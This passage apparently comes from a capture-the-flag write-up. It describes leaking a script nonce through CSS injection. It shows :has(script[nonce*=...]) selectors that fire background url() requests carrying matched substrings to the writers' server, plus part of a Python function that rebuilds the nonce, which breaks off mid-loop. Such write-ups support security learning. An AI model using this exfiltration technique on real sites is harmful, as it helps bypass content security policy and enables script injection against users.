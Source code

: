 We realized that something is not working, only the last matched substring (in this case it would be `aac`) is being sent to our server.

We had no idea why it didn't work.

> Further researches led us to understand that in CSS, when you have multiple selectors targeting the same element (or set of elements) with conflicting styles, the style that is applied is determined by the specificity and order of the rules. If a later rule has the same or higher specificity as an earlier rule, it will override the earlier rule. If the specificity is the same, the rule declared later in the stylesheet takes precedence.

Then, after trying many times to find a way to send more requests, we tried to apply more than one background to a tag and... It worked!!!

```css
:has(script[nonce*="aaa"]){--tosend-aaa: url(...?x=aaa);}
:has(script[nonce*="aab"]){--tosend-aab: url(...?x=aab);}
:has(script[nonce*="aac"]){--tosend-aac: url(...?x=aac);}

[...]

input{
    background: var(--tosend-aaa, none),
    var(--tosend-aab, none),
    var(--tosend-aac, none),
    var(--tosend-aad, none),
    [...]
}
```

So we're going to receive only the correct substrings.
It's possible to recover the nonce in many ways, the one we used is the following:

```py
def retrieveNonce(nonce_substr=nonce_substr, force=False):
    # find the beginning of the nonce (there is no match for start)
    new_substr = list(nonce_substr)
    if (len(new_substr) != 30 and not force):
        print(f"different length of new_substr [{len(new_substr)}] - aborting")
        return 0
    backup = []
    nonce = ''
    remove_i = 0
    for i in range(len(new_substr)):
        start_i = new_substr[i][0:2]
        left = 0
        for j in range(len(new_substr)):
            end_j = new_substr[j][-2:]
            if i != j:
                if start_i == end_j:
                    left = 1
                    break
        if left == 0:
            # beginning
            remove_i = i
            nonce = new_substr[i]
            break
    if (len(nonce) == 0):
        print("no beginning - aborting")
        return 0
    while (len(nonce) < 32):
        new_substr = new_substr[0:remove_i] + new_substr[remove_i+1:]
        # print("new substr: " + str(new_substr))
        found = []
        for i in range(len(new_substr)):
            start_i = new_substr[i][0:2]
            if (nonce[-2:] == start_i):
```